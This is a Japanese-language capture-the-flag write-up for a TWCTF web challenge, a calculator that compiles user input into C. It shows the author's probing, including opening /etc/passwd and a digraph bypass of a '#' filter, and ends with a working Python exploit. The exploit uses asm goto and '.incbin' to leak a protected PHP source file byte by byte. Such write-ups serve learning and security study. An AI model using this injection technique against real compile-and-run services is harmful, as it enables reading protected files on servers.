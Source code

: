 `formula` に入力した計算式の答えを (`% 256` した上で) 返してくれる Web アプリケーションのようです。`#` `{` `}` や改行文字を入力すると数式のパースの前に弾かれる、`-1` を入力すると `255` が返ってくる (PHP では `-1 % 256 === -1`) 等、不思議な挙動をしていたことから色々試していると、`sizeof(int)` を入力したときに `4` を返したことから、C のコードにユーザ入力を挿入した上でコンパイルし、実行した結果を PHP 側が何らかの形で取得し出力していると推測しました。

どのように PHP 側で実行結果を取得しているか調べると、`1; int a;` が通って `1; int res;` が通らず、また `1; exit(2); res = 3;` の実行結果が `2` になることから、以下のような C コードをコンパイルして実行し、その終了コードを実行結果としていると推測しました。

```c
/* いろいろ */
int main() {
  int res = /* ここにユーザ入力が入る */;
  return res;
}
```

また、`__GCC_IEC_559_COMPLEX` 等を入力しても数式のパースに失敗しない (= コンパイルに失敗しない) ことから、コンパイルには GCC が使われていると推測しました。

これを利用して `/srv/olc/public/calc.php` を読めばよいのかと思ったのですが、`1; FILE *fp; fp = fopen("/etc/passwd", "r"); return fp` は 0 以外の値を返すものの、`1; FILE *fp; fp = fopen("/srv/olc/public/calc.php", "r"); return fp` は 0 (= `NULL`) を返します。ファイルを開くのに失敗しているようです。

Web サーバとは別の環境で実行しているのではないかと考えましたが、`access` 関数で `/srv/olc/public/calc.php` を `F_OK` と `R_OK` でそれぞれ確認したところ、ファイルは存在しているものの読み取り権限がないことがわかりました。`__FILE__` でも同じような挙動を示すことから、コンパイル時には読み取り権限があるものの、実行時には権限が落とされているのではないか (= コンパイル時にファイルを読む必要がある) のではないかと推測しました。

コンパイル時のファイル読み込みと聞いてまず思い浮かぶのは `#include` ですが、`/srv/olc/public/calc.php` の内容を `#include` で文字列として埋め込むのは厳しそうです。また、`#` の制限はダイグラフ (`%:` がコンパイル時 `#` に変換される) で回避できますが、改行文字は CR と LF が使えない以上 (たぶん) どうしようもありません。

---

ここまでが競技時間中に考えた/わかったことです。競技終了後に gas の機能である `.incbin` を使えばよいと知って書いた exploit が以下です。

```python
import re
import requests
from urllib.parse import quote

code = '''
1;
asm goto (""::::a);
goto b;

a: asm(".incbin \\"/srv/olc/public/calc.php\\"");
b: return ((char *)&&a)[{}];
'''.replace('\n', ' ')

res = ''
i = len(res)
while True:
  r = requests.get('http://(省略)/calc.php?formula=' + quote(code.format(i)))
  r = r.content.decode()
  c = int(re.findall(r'data: evaluating\n\n\nevent: message\ndata: (.+)\n', r)[0])
  res += chr(c)
  i += 1
  print(res)
```

```
$ python solve.py
︙
<?php
// TWCTF{1nsecure_c0mpiling_with_C_78024f34fd92e04734533a7e174807da}
/*
Notification for flag2
- `/var/tmp` is the place for you to store some data where cannot be listed by others.
- execute `/readflag2` to get flag (/flag2).
*/
︙
```